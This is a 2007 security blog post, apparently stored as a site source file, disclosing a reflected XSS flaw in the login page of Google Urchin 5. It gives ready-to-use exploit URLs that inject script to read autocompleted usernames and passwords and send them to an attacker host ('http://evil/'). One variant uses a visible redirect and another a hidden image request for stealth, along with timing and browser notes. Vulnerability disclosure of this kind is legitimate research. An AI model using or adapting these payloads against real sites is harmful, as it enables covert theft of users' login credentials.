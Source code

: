 ```yaml
---
title: Google Urchin Password Theft Madness
author: adrian-pastor
date: Mon, 24 Sep 2007 14:14:49 GMT
template: post.jade
category: fucked
---
```


There is a trivially exploitable XSS vul on [Google Urchin Web Analytics 5](http://www.google.com/search?q=intext%3A%22Urchin+Web+Analytics+v5%22)'s login page. The vulnerability has been tested on versions `5.6.00r2`, `5.7.01`, `5.7.02` and `5.7.03` (latest). Previous versions are most likely to be affected as well. In case you didn't know, [Google Urchin](http://www.google.com/analytics/urchin_downloads.html) is the **install** version of Google Analytics.

I reported the issue to Google back on Jul 25 and was confirmed by their security team. They are now working on a fix. My original plan was to publish this info after a fix would be released. However, the issue [has also been found](http://ha.ckers.org/blog/20070823/xss-and-possible-information-disclosure-in-urchin/) by other folks about a month ago. As usual, the researcher loses credit when following the responsible disclosure route. Here is the boring POC:

	http://target/session.cgi?"><script>alert('XSS')</script><!--

You might have heard before that a XSS vulnerability on a login page is nasty. However most people think that the worst thing you can do is inject a form in order to perform a phishing attack. Although it's true this is a good example of what you can do, we can also do more advanced XSS phishing attacks that are even harder to detect. My two favorite tricks when finding a XSS vul on a login page are:

* **Overwriting** the login form's `action` attribute so that the victim's username and password are stolen when clicking on Login
* **Stealing** autocomplete data so that victim username and password are stolen _by simply clicking on our exploit URL_ (juicy!)

    Anyway, let's get to the point. I know that you're sick of XSS PoCs that only open alert boxes. So here is a exploit URL that will steal the victim's username and password by simply clicking on it. The only requirement is that the victim is using the "autocomplete passwords" feature, aka "Remember passwords for sites":

    http://target/session.cgi?"></form><script>setTimeout("location%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

    Using `location` is great for redirecting information to third-party sites. The problem is that the current window will change to show the evil site. Although this is great for demo purposes, it sucks when it comes to being stealth, since the victim can actually see his/her credentials being sent to another website on the address bar. Instead, we can dynamically create an image with JavaScript so _the credentials are stolen in the background:_

    http://target/session.cgi?"></form><script>h%3dnew%20Image();setTimeout("h.src%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

The following video shows the previous exploit in action. I don't think the quality of the video is that good, but oh well. Basically what it shows is how after visiting the exploit URL, the username and password are sent to google.com in the background. I use Paros in the video to demonstrate that the credentials do indeed get sent to google.com.

<iframe class="video" src="//www.youtube.com/embed/wCUovL9WLVQ" frameborder="0" allowfullscreen></iframe>

If you look at the code, you'll notice that we wait 1.5 secs using the _setTimeout()_ function before forwarding the credentials to the evil site. The reason for this is because we need to let the browser auto-complete the fields before performing the redirect. Otherwise the value of the username and password field would be blank by the time we steal them. 

_The PoC has been tested on the latest version of FF (2.0.0.7 at time of writing) and does _not_ work on IE 7, but _might_ work on IE 6. This doesn't mean you cannot do a auto-complete password theft attack on IE 7, it just needs a bit of more work! If you want to know the reason behind this difference is that IE 7 requires the user to first type or choose the username from the auto-complete drop-down menu, <em>before_ the password field is automatically filled.</em>
